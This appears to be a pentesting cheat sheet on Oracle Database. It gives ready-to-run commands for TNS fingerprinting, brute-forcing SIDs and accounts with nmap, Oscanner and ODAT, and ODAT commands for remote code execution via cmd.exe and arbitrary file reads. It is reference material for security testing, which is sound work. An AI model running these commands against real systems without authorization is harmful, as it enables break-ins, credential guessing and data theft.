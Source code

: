 # Oracle Database

#### Security notes

- Generally usernames and passwords are not case-sensitive in older Oracle databases, but as of **11g** this is not the case.
- Accounts are typically subject to an account lockout on too many password attempts ranging from 5 to 10

#### Tools

- Nmap
- [Oscanner](https://gitlab.com/kalilinux/packages/oscanner/) is an Oracle assessment framework developed in Java.
- [ODAT](https://github.com/quentinhardy/odat) is an open source penetration testing tool that tests the security of Oracle Databases remotely.
- tnscmd10g is a tool to enumerate the oracle tnslsnr process

```bash
# Fingerprint Oracle TNS
nmap --script=oracle-tns-version IP
tnscmd10g version -h IP

# Brute force oracle user accounts
nmap --script=oracle-sid-brute IP
nmap --script=oracle-brute IP

oscanner -s 192.168.1.15 -P 1040
```

##### ODAT

The all module is the first module that should be used when you meet an Oracle Database.
It is very useful when you want to known what you can do on a database server with a valid SID or no, with a valid Oracle account or no.

```bash
./odat.py all -s 192.168.1.254 -p 1521 --accounts-files accounts/logins.txt accounts/pwds.txt
./odat.py all -s 192.168.1.254 -p 1521 -d ORCL # If you known a SID
```

If you have an account

```bash
./odat.py all -s 192.168.1.254 -p 1521 -d ORCL -U SYS -P password # If you know a user (here SYS account of ORCL SID)
/usr/bin/sqlplus64 username/password@IP:PORT/SID # Connecting to an Oracle Database
./odat.py dbmsscheduler -s 192.168.0.5 -d ORCL -U username -P password --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv # Code Execution
./odat.py externaltable --getFile C:\\Users\\Booj\\Desktop evil.jpg evil.jpg -s 192.168.0.5 -d ORCL -U username -P password --sysdba # Arbitrary File Read
```

**Note that it will perform bruteforce by default with is own list**

- If ODAT founds at least one SID (e.g. ORCL), it will search valid Oracle accounts.

- For each valid account (e.g. SYS) on each valid instance (SID), ODAT will give you what each Oracle user can do (e.g. reverse shell, read files, become DBA).

*If you don't know, now you know: [Oracle Database](https://docs.oracle.com/cd/E11882_01/network.112/e41945/concepts.htm#NETAG176)*

A database has at least one **instance**. 
An instance is comprised of a memory area called the System Global Area (SGA) and Oracle background processes. 
The memory and processes of an instance efficiently manage the associated database's data and serve the database users.

The instance name is specified by the **INSTANCE_NAME** initialization parameter. 
The instance name defaults to the Oracle system identifier (SID) of the database instance.

The most common SID is **ORCL**

Account are link to SID.

Oracle can come with the Transparent Network Substrate protocol.
TNS is a proprietary Oracle computer-networking technology, supports homogeneous peer-to-peer connectivity on top of other networking technologies such as TCP/IP, SDP and named pipes.


Reference:

Thanks to @Arrway for the "TNS" part <https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#fingerprint-oracle-tns-version>